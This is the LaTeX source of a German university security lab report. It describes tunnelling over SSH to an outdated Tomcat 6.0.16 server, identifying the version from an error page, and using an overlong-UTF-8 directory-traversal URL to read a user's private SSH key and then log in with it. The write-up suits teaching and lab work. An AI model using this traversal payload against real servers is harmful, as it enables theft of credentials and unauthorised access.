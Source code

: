 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%
%

\section{Lab1a}

\subsection{Vorgehensweise}
Nachdem man sich in die Übungsumgebung einloggt, stehen einem keine Web Browsing Tools (wie z.B. lynx, links o.ä.) zu Verfügung. Deshalb muss man einen anderer Weg finden, die Homepage auf einem Rechner, der von außen erreichbar ist, zu sehen. Eine Möglichkeit wäre hier einen SSH Tunnel (Port Forwarding) zu bauen.
\url{http://wiki.ubuntuusers.de/SSH#SSH-Tunnel}
\url{http://blog.ch-becker.de/2011/02/20/ssh-tunnel-mit-linux/}
(image 1)
Wir haben folgenden Befehl ausgeführt um einen SSH Tunnel zu bauen:
\begin{lstlisting}
ssh -L 2008:192.168.20.100:8000 XXXXXXX@sela.inso.tuwien.ac.at -p 12345
\end{lstlisting}
Nachdem der Tunnel aufgebaut ist, kann man sich über diesen Port die Homepage auf dem veralteten Tomcat Server ansehen. Eingabe der URL \url{http://localhost:2008} bringt uns zur gewünschte Homepage.
(image2)
Um herauszufinden um welche Version des Tomcat Server sich handelt, genügt es eine ungültigen Anfrage zum Webserver zu senden. Wenn man z.B. die Resource /wrong auffordert (unter http://localhost:2008/wrong), bekommt man eine Fehlermeldung und man erkennt leicht, dass es sich um einen Tomcat Server Version 6.0.16 handelt.
(image3)
Um den privaten Schlüssel für Benutzer walter zu bekommen, haben wir folgendes Befehl ausgeführt (siehe Schwachstellen und Angriff): \url{http://127.0.0.1:2008/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/home/walter/.ssh/id_rsa}
Mit diesem Schlüssel haben wir einen SSH-Zugang auf dem Server. Wenn wir diesen Schlüssel in die Übungsumgebung kopieren, können wir uns einloggen.
\begin{lstlisting}
ssh -i id_rsa walter@192.168.20.100
\end{lstlisting}
oggen.
(image4)
\end{document}
